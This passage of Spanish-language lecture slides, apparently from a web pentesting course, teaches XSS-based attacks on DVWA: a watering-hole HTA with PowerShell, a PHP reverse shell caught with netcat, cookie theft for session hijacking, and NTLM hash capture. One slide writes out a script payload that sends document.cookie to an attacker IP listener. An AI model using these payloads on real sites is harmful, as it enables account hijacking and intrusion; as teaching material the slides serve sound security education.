\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl107_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{RCE vía XSS mediante un ataque Watering Hole}
\small
  \begin{itemize}
  \item Explotamos la vulnerabilidad XSS almacenada (un XSS persistente no tendría sentido\dots{}por qué?)
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl108_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{RCE vía XSS mediante un ataque Watering Hole}
\small
  \begin{itemize}
  \item Y cuando una posible víctima visite la web comprometida, se descargará el hta con el código powershell embebido.
    \begin{itemize}
    \item y recibimos la sesión:
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl109_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl109_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Realiza un ataque de tipo watering hole con un XSS}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl110_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejecución remota (RCE) vía XSS}
\small
  \begin{itemize}
  \item En Kali tenemos varias php-shell, a mi, personalmente, me gusta mucho esta:
    \begin{itemize}
    \item La editamos para ajustarla a nuestras condiciones
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl111_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl111_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejecución remota (RCE) vía XSS}
\small
  \begin{itemize}
  \item Ahora podríamos subir esta php-reverse-shell usando el servicio de subida de ficheros:
    \begin{itemize}
    \item se puede apreciar la ruta donde se ha almacenado la php-reverse-shell:
      \begin{itemize}
      \item ip/images/ReverseXSS.php
      \end{itemize}
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl112_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejecución remota (RCE) vía XSS}
\small
  \begin{itemize}
  \item Ahora puedo inyectar un payload XSS en la aplicación vulnerable que apunte a ese recurso subido (la php-shell):
    \begin{itemize}
    \item Y recibo la shell con un netcat:
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl113_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl113_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
  \begin{itemize}
  \item Realiza una intrusión a la máquina donde se aloja DVWA a partir de un XSS que permita la ejecución remota de comandos (RCE)
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl114_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Session Hijacking con XSS}
\small
  \begin{itemize}
  \item payloads para robar cookies de sesión vía XSS:
    \begin{itemize}
    \item https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl115_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Session Hijacking con XSS}
\small
  \begin{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl116_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl116_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Session Hijacking con XSS}
\small
  \begin{itemize}
  \item Una vez capturada la cookie la introducimos con un plugin o addon de tipo ``cookie manager''. También se pude reinyectar la cookie con burp
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl117_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Session Hijacking con XSS}
\small
  \begin{itemize}
  \item Más currado todavía, con un programa en php para almacenar todas las cookies robadas
    \begin{itemize}
    \item \textless{}script\textgreater{}window.location.href =\textquotedbl{} http://192.168.1.153:1222/roboCookies.php?cookie=\textquotedbl{}+document.cookie;\textless{}/script\textgreater{}
      \begin{itemize}
      \item root@kali:\textasciitilde{}\# python -m SimpleHTTPServer 1222
      \end{itemize}
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl118_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
  \begin{itemize}
  \item Realiza un ataque de sesión hijacking vía robo de cookie usando un ataque XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl119_1.jpg}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl119_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Captura de hashes NTLM vía XSS}
\small
  \begin{itemize}
  \item El atacante usa la herramienta responder y se pone a escuchar el canal.
    \begin{itemize}
    \item y ahora debe inyectar el código scriptlet.html
    \end{itemize}
  \item XSS
  \end{itemize}
